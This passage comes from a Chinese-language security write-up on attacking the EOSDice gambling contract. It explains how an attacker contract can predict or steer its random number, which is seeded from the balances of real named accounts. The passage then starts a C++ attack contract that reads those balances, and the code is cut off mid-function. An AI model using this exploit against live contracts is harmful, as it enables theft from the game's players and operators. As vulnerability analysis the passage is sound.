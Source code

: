 ![](https://img.learnblockchain.cn/2019/15578476021212.jpg)


可以看到，当A账户给B账户转账的时候，转账通知会先发送给A账户，再发送给B账户。那么，黑客可以部署一个攻击合约，当黑客通过此账号来进行游戏的时候，攻击合约肯定先于`EOSDice`官方合约收到转账通知。黑客可以同样做一个两次`defer action`来预测随机数

![](https://img.learnblockchain.cn/2019/15578476191725.jpg!/scale/35%)


下图是利用攻击合约预测随机数。

![](https://img.learnblockchain.cn/2019/15578476270231.jpg)


可以看到，黑客完全可以通过攻击合约来预测随机数的结果。不过，问题来了由于使用了两次`defer action`进行开奖，那么这个结果是黑客无法在下注前得到的。因此，黑客要对`EOSDice`进行攻击只能另辟蹊径。


### 用户测试的攻击合约

因为`EOSDice`中，随机数种子是很多账户余额的总和，黑客完全可以通过计算能让黑客稳赢的状态下这个余额的值，然后在给任意账户转账即可控制`EOSDice`的随机数结果。下面我们编写一个测试合约进行试验：

```c++
#include <utility>
#include <vector>
#include <string>
#include <eosiolib/eosio.hpp>
#include <eosiolib/time.hpp>
#include <eosiolib/asset.hpp>
#include <eosiolib/contract.hpp>
#include <eosiolib/types.hpp>
#include <eosiolib/transaction.hpp>
#include <eosiolib/crypto.h>
#include <boost/algorithm/string.hpp>
#include "eosio.token.hpp"

#define EOS_SYMBOL S(4, EOS)

using eosio::asset;
using eosio::permission_level;
using eosio::action;
using eosio::print;
using eosio::name;
using eosio::unpack_action_data;
using eosio::symbol_type;
using eosio::transaction;
using eosio::time_point_sec;


class attack : public eosio::contract {
    public: 
        uint64_t id = 66;
        attack(account_name self):eosio::contract(self)
        {}

        uint8_t random(account_name name, uint64_t game_id, uint64_t add)
        {
            auto eos_token = eosio::token(N(eosio.token));
            asset pool_eos = eos_token.get_balance(N(eosbocai2222), symbol_type(S(4, EOS)).name());
            asset ram_eos = eos_token.get_balance(N(eosio.ram), symbol_type(S(4, EOS)).name());
            asset betdiceadmin_eos = eos_token.get_balance(N(betdiceadmin), symbol_type(S(4, EOS)).name());
            asset newdexpocket_eos = eos_token.get_balance(N(newdexpocket), symbol_type(S(4, EOS)).name());
            asset chintailease_eos = eos_token.get_balance(N(chintailease), symbol_type(S(4, EOS)).name());
```